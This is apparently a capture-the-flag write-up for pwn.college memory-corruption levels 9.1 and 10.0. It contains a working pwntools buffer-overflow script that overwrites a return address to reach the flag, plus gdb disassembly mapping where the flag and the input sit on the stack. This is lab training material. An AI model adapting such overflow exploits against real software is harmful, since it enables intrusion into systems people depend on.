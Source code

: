 # 9. Level 9.1:
-It is similar with level 9.0.
**My script:**
```
from pwn import *
while True:
    r = process('/challenge/babymem_level9.1')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'74')
    r.recvuntil(b'Send your payload (up to 74 bytes)!')
    r.sendline(b'A'*41 + p32(0x47000000) + 0x2086.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```
# 10. Level 10.0:
> In this level, the flag will be loaded into memory.
> However, at no point will this program actually print the buffer storing the flag.
-Let's debug this program, there are some important segments.

```
0x00005593d08b3648 <+473>:   mov    esi,0x0
0x00005593d08b364d <+478>:   lea    rdi,[rip+0xdef]        # 0x5593d08b4443
0x00005593d08b3654 <+485>:   mov    eax,0x0
0x00005593d08b3659 <+490>:   call   0x5593d08b2180 <open@plt>
0x00005593d08b365e <+495>:   mov    ecx,eax
0x00005593d08b3660 <+497>:   mov    rax,QWORD PTR [rbp-0x138]
0x00005593d08b3667 <+504>:   mov    edx,0x100
0x00005593d08b366c <+509>:   mov    rsi,rax
0x00005593d08b366f <+512>:   mov    edi,ecx
0x00005593d08b3671 <+514>:   call   0x5593d08b2160 <read@plt>
```
- I check the file name that opens and reads into [rbp-0x138]

```
(gdb) x 0x5593d08b4443
0x5593d08b4443: 0x61500067616c662f    #'/flag' = 0x2f666c6167
```
- Thus, flag will stored at [rbp - 0x138].

```
0x00005593d08b376b <+764>:   mov    rdx,QWORD PTR [rbp-0x148]
0x00005593d08b3772 <+771>:   mov    rax,QWORD PTR [rbp-0x140]
0x00005593d08b3779 <+778>:   mov    rsi,rax
0x00005593d08b377c <+781>:   mov    edi,0x0
0x00005593d08b3781 <+786>:   call   0x5593d08b2160 <read@plt>
```
- My input start at [rbp-0x140].
 